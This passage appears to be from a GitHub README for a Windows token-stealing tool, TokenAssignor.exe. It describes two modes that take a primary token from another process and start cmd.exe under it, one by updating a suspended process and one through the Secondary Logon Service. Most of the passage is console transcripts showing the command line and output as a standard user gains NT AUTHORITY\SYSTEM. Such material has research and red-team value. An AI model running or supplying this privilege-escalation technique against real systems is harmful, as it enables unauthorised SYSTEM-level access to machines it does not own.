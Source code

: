 When set `-m` option to `1`, this tool tries to create a suspended process and update the primary token to a stolen token.
This method cannot be used for changing Session ID due to kernel restriction.
Kernel forces token's Session ID to be matched with Session ID for `_EPROCESS`:

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 1

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x2C8).
[+] Got a impersonation token from winlogon.exe (Handle = 0x2D8).
[+] Impersonation as winlogon.exe is successful.
[+] Suspended "C:\Windows\system32\cmd.exe" is executed successfully (PID = 9968).
[*] Current user of the suspended process is DESKTOP-5OHMOBJ\user (SID: S-1-5-21-1955100404-698441589-1496171011-1001)
[+] Primary token for the suspended process is updated successfully.
[*] Current user of the suspended process is NT AUTHORITY\SYSTEM (SID: S-1-5-18)
[*] Resuming the suspended process.
Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```

If set `-m` option is set to `2`, creates a new token assigned process with Secondary Logon Service:

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 2

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x2C4).
[+] "C:\Windows\system32\cmd.exe" is executed successfully (PID = 5832).
[*] User of the created process is NT AUTHORITY\SYSTEM (SID: S-1-5-18).

PS C:\Dev>

Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

```